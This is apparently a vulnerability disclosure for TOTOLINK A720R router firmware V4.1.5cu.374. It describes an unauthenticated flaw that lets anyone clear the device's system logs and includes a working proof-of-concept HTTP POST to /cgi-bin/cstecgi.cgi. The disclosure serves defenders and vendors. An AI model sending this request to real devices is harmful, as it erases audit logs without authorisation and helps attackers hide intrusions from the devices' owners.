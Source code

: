 # Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/203/ids/36.html

# Affected version

V4.1.5cu.374

# Vulnerability details

The TOTOLINK A720R V4.1.5cu.374 firmware contains an unauthorized system log deletion vulnerability. This vulnerability occurs when a POST request is sent to the `/cgi-bin/cstecgi.cgi` with the parameter `{"topicurl":"clearSyslog"}`, allowing an attacker to delete system logs without authentication.

# Poc

System logs are normally recorded.

![图 0](img/3d9d8506968579a012a15828056aea9b3e6130ab439529892e9683666af1cbf0.png)  

Send a request to clear the log.

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.140.79
Content-Length: 27
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36 Edg/135.0.0.0
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.140.79
Referer: http://192.168.140.79/basic/index.html?time=1745238634622
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: keep-alive

{"topicurl":"clearSyslog"}
```

![图 1](img/36c79fb69c0d189284dc6574725aa870d8202f80d72b5e1eef0d5ffb3a1e7edf.png)  

System logs have been cleared.

![图 2](img/8a2e9eedd5c7c1f192e8b2cdde51203ba9d3ac71fe13c7216a53b0a4ee07b4b9.png)  

